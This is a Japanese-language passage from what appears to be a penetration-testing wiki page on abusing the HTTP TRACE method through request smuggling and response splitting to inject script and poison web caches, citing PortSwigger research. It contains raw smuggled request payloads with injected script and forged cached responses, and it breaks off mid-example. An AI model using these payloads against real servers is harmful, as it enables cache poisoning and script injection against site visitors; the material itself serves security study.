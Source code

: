 ### HTTPリクエストスムグリングを利用したTRACEの悪用 <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

[**この投稿**](https://portswigger.net/research/trace-desync-attack)では、サーバーにTRACEメソッドが有効になっている場合、HTTPリクエストスムグリングを利用することが可能であると提案されています。これは、このメソッドがサーバーに送信された任意のヘッダーをレスポンスのボディの一部として反映するためです。例えば：
```
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
```
以下のようなレスポンスを送信します：
```
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115

TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
```
この動作を悪用する例としては、**最初にHEADリクエストをスムグル**ことが挙げられます。このリクエストは、GETリクエストの**ヘッダー**のみで応答されます（その中に**`Content-Type`**が含まれます）。そして、**HEADの直後にTRACEリクエストをスムグル**ことで、**送信されたデータを反映させる**ことができます。\
HEADの応答には`Content-Length`ヘッダーが含まれるため、**TRACEリクエストの応答はHEAD応答のボディとして扱われ、したがって任意のデータを反映させる**ことになります。\
この応答は接続上の次のリクエストに送信されるため、例えば**キャッシュされたJSファイルで任意のJSコードを注入するために使用される可能性があります**。

### HTTPレスポンス分割を介したTRACEの悪用 <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

[**この投稿**](https://portswigger.net/research/trace-desync-attack)を引き続き参照することが推奨されており、TRACEメソッドを悪用する別の方法が示されています。コメントの通り、HEADリクエストとTRACEリクエストをスムグルことで、HEADリクエストへの応答における**一部の反映データを制御する**ことが可能です。HEADリクエストのボディの長さは基本的にContent-Lengthヘッダーで示され、TRACEリクエストへの応答によって形成されます。

したがって、新しいアイデアは、このContent-LengthとTRACE応答で与えられたデータを知ることで、TRACE応答がContent-Lengthの最後のバイトの後に有効なHTTP応答を含むようにすることが可能であり、攻撃者が次の応答へのリクエストを完全に制御できるようにすることです（これによりキャッシュポイズニングを実行することができます）。

例:
```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```
これらのレスポンスを生成します（HEADレスポンスにContent-Lengthがあることに注意してください。これによりTRACEレスポンスがHEADボディの一部となり、HEAD Content-Lengthが終了すると有効なHTTPレスポンスがスムーズに送信されます）：
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
```
